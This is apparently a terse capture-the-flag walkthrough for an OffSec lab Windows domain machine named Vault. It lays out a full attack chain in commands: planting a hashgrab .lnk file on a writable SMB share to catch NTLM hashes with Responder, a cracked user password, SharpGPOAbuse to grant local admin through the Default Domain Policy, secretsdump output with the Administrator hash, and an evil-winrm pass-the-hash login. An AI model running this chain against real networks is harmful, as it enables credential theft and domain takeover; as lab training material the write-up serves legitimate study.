




_____

> [!info]
> IP=192.168.188.172


# SMB

Documentsshare upload enabled


```
# https://github.com/xct/hashgrab
python3 ~/tools/hashgrab/hashgrab.py attackerIP xct


put xct.lnk
```

```bash
sudo responder -I tun0 -wv
```



```txt
SecureHM         (anirudh)     
```

Remote Management Users

# Priv Esc





[https://github.com/byronkg/SharpGPOAbuse](https://github.com/byronkg/SharpGPOAbuse)

```bash
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "DEFAULT DOMAIN POLICY"

gpupdate /force
```

```bash
impacket-secretsdump vault.offsec/anirudh:SecureHM@$IP
```




```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54ff9c380cf1a80c23467ff51919146e:::
```

```bash
evil-winrm -i $IP -u 'vault.offsec\administrator' -H 54ff9c380cf1a80c23467ff51919146e
```
